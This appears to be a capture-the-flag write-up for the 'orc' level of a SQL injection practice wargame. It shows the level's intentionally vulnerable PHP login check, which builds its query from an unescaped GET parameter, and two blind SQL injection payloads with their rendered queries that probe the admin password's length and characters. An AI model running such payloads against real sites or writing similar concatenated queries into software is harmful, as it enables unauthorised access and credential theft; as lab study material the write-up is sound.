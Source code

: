 ```
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```

PAYLOAD 1: ?pw=' or id='admin' and length(pw)>0-- -
OUTPUT: select id from prob_orc where id='admin' and pw='' or id='admin' and length(pw)>0-- -'

PAYLOAD 2: ?pw=' or id='admin' and (ascii(substr(pw,1,1))>0)-- -
OUTPUT: select id from prob_orc where id='admin' and pw='' or id='admin' and (ascii(substr(pw,1,1))>0)-- -'
Hello Admin
